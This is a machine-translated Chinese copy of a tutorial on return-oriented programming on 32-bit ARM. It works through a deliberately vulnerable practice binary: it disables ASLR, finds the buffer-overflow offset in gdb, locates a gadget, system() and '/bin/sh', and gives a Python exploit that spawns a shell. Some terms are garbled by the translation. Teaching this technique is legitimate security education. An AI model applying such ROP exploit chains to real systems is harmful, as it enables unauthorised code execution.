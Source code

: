 # ARM 上面向返回的编程(32 位)

> 原文:[https://dev . to/icy phox/return-oriented-programming-on-arm-32-bit-436m](https://dev.to/icyphox/return-oriented-programming-on-arm-32-bit-436m)

在我们开始*任何事情*之前，你应该知道手臂装配的基本知识。我强烈推荐 [Azeria 的](https://twitter.com/fox0x01)系列关于[手臂组装基础](https://azeria-labs.com/writing-arm-assembly-part-1/)。一旦你适应了，就可以继续下一步——环境设置。

### [](#setup)设置

由于我们使用的是 ARM 架构，因此有两个选项可供选择:

1.  仿真——前往[qemu.org/download](https://www.qemu.org/download/)安装 QEMU。然后从其中一个链接[这里](https://blahcat.github.io/qemu/)下载并提取 ARMv6 Debian Stretch 镜像。里面的脚本应该是不言自明的。
2.  使用实际的 ARM 硬件，如 RPi。

为了调试和拆卸，我们将使用普通的老式`gdb`，但是你也可以使用`radare2`、IDA 或其他任何东西，真的。所有这些都可以轻松安装。

为了简单起见，禁用 ASLR:

```
$ echo 0 > /proc/sys/kernel/randomize_va_space 
```

最后，我们将在这个练习中使用的二进制是[比利埃利斯的](https://twitter.com/bellis1000) [roplevel2](///static/files/roplevel2.c) 。

编译一下:

```
$ gcc roplevel2.c -o rop2 
```

说完这些，下面我们来快速浏览一下 ROP 到底是什么。

### ROP 入门

面向 ROP 或返回的编程是一种现代开发技术，用于绕过保护，如 **NX 位**(非执行位)和**代码签名**。本质上，二进制文件中没有任何代码被真正修改，整个漏洞利用是在二进制文件中预先存在的工件基础上精心制作的，这些工件被称为**小工具**。

gadget 本质上是一小段代码(指令)，以一个`ret`或返回指令结束。在我们的例子中，因为我们处理的是 ARM 代码，所以没有`ret`指令，而是一个`pop {pc}`或`bx lr`。这些小工具通过从一个跳到(返回)另一个上而被*链接在一起，形成所谓的**链条**。在一个 ropchain 的末尾，通常会有一个对`system()`的调用，以实现代码执行。*

实际上，执行 ropchain 的过程是这样的:

*   确认存在基于堆栈的缓冲区溢出
*   确定指令指针被覆盖的偏移量
*   找到您希望使用的小工具的地址
*   记住堆栈的布局，精心设计你的输入，并链接你的小工具的地址

LiveOverflow 有一个[的漂亮视频](https://www.youtube.com/watch?v=zaQVNM3or7k&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=46&t=0s)，他用“奇怪的机器”解释 ROP。看看吧，这可能正是你所需要的“啊哈！”瞬间:)

还不明白吗？不要担心，我们一会儿会看一下*实际的*漏洞利用代码，希望这能让我们看清事情的真相。

### [](#exploring-our-binary)探索我们的双星

首先运行它，并输入任意字符串。在输入一个相当大的字符串时，比如说“A”×20，我们会看到一个分段错误。

[![string and segfault](../Images/6a686bc52d160387da9fb362e7c87341.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--tbU_GjNE--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/string_segfault.png)

现在，在`gdb`中打开它，看看里面的功能。

[![gdb functions](../Images/50a66958eda76f7daf5f729f79227a5d.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--DMdn1vw---/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/gdb_functions.png)

这里有三个重要的功能，`main`、`winner`和`gadget`。拆卸`main`功能:

[![gdb main disassembly](../Images/0ccae0a32536d8248d1306bd0ce8a27a.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--zjO1GJip--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/gdb_main_disas.png)

我们看到一个 16 字节的缓冲区被创建(`sub sp, sp, #16`)，以及一些对`puts()` / `printf()`和`scanf()`的调用。看来`winner`和`gadget`从来没有真正被调用过。

拆卸`gadget`功能:

[![gdb gadget disassembly](../Images/b87f129fb24af8b0f94872dced4bed07.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--nxequwMO--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/gdb_gadget_disas.png)

这相当简单，堆栈通过`push`调用`{r11}`进行初始化，T1 也是帧指针(`fp`)。有趣的是中间的`pop {r0, pc}`指令。这是一个**小玩意**。

我们可以用这个来控制进入`r0`和`pc`的内容。与在 x86 中函数的参数在堆栈上传递不同，在 ARM 中寄存器`r0`到`r3`用于此目的。所以这个小工具有效地允许我们使用`r0`向函数传递参数，然后通过在`pc`中传递它的地址来跳转到它们。干净利落。

继续拆卸`winner`功能:

[![gdb winner disassembly](../Images/ac612bd034d3d93241bb4375afae1ab2.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--aLpJMXLo--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/gdb_disas_winner.png)

在这里，我们看到了对`puts()`、`system()`和最后`exit()`的调用。因此，很明显，我们的最终目标是通过`system()`函数执行代码。

现在我们已经对二进制文件中的内容有了一个大致的了解，让我们通过对输入进行处理来制定一个利用方法。

回到`gdb`，点击`r`运行并传入一个模式化的输入，如截图所示。

[![gdb info reg post segfault](../Images/8d10a578dc59acb7c34b80542fe0222f.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--rKa1t_ZI--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/gdb_info_reg_segfault.png)

由于地址`0x46464646`的无效内存，我们遇到了 segfault。注意`pc`已经被我们的输入覆盖了。所以我们砸碎了堆栈，但更重要的是，它在字母 F 处。

因为我们知道了`pc`被覆盖的偏移量，我们现在可以控制程序执行流程。让我们试着跳到`winner`函数。

使用`disas winner`再次分解`winner`，并记下第二个指令`add r11, sp, #4`的偏移量。为此，我们将使用 Python 打印输入字符串，用地址`winner`替换`FFFF`。注意字节序。

```
$ python -c 'print("AAAABBBBCCCCDDDDEEEE\x28\x05\x01\x00")' | ./rop2 
```

[![jump to winner](../Images/d5bbaa1ccbc878f418ecf21e538964bb.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--gbZaXagD--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/python_winner_jump.png)

我们不跳到第一条指令的原因是因为我们想自己控制堆栈。如果我们允许`push {rll, lr}`(第一条指令)发生，程序将在`winner`完成执行后`pop`那些指令，我们将不再控制它跳转到哪里。

所以这并没有做太多，只是打印出一个字符串“这里没什么…”。但是它*却*包含`system()`。它需要填充一个参数来完成我们想要的任务(运行一个命令，执行一个 shell，等等)。).

为此，我们将遵循一个多步骤流程:

1.  再次跳转到第 2 条指令`gadget`的地址。这将`pop` `r0`和`pc`。
2.  将我们要执行的命令压入堆栈，说“`/bin/sh`”。这将进入`r0`。
3.  然后，推送`system()`的地址。这将进入`pc`。

伪代码大概是这样的:

```
string = AAAABBBBCCCCDDDDEEEE
gadget = # addr of gadget
binsh = # addr of /bin/sh
system = # addr of system()

print(string + gadget + binsh + system) 
```

干净又刻薄。

### [](#the-exploit)借题发挥

为了编写这个漏洞，我们将使用 Python 和一个绝对天赐的库— `struct`。它允许我们将地址的字节打包成我们选择的字节顺序。它可能做得更多，但谁在乎呢。

让我们从获取`/bin/sh`的地址开始。在`gdb`中，在`main`设置一个断点，点击`r`运行，在整个地址空间中搜索字符串`/bin/sh`:

```
(gdb) find &system, +9999999, "/bin/sh" 
```

[![gdb finding /bin/sh](../Images/c7ce793e472423f6f11e7421711a957e.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--47WmBQic--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/gdb_find_binsh.png)

一击命中`0xb6f85588`。`gadget`和`system()`的地址可以从之前的拆解中找到。下面是最终的漏洞利用代码:

```
import struct

binsh = struct.pack("I", 0xb6f85588)
string = "AAAABBBBCCCCDDDDEEEE"
gadget = struct.pack("I", 0x00010550)
system = struct.pack("I", 0x00010538)

print(string + gadget + binsh + system) 
```

老实说，离我们的伪代码不算太远:)

让我们来看看它的实际应用:

[![the shell!](../Images/50ff5a4c0aa261b9a980013b89bb6c75.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--lEIVvGFb--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/the_shell.png)

注意，它第一次没有工作，这是因为当管道关闭时`/bin/sh`终止，因为没有来自 STDIN 的输入。为了解决这个问题，我们使用了`cat(1)`,它允许我们通过它将输入传递给 shell。漂亮的把戏。

### [](#conclusion)结论

这是一个相当基本的挑战，一切都很方便。实际的 ropchaining 稍微复杂一些，有更多的小工具被链接到一个有效的代码执行。

希望我也能开始写关于 ARM 上堆利用的文章。目前就这些。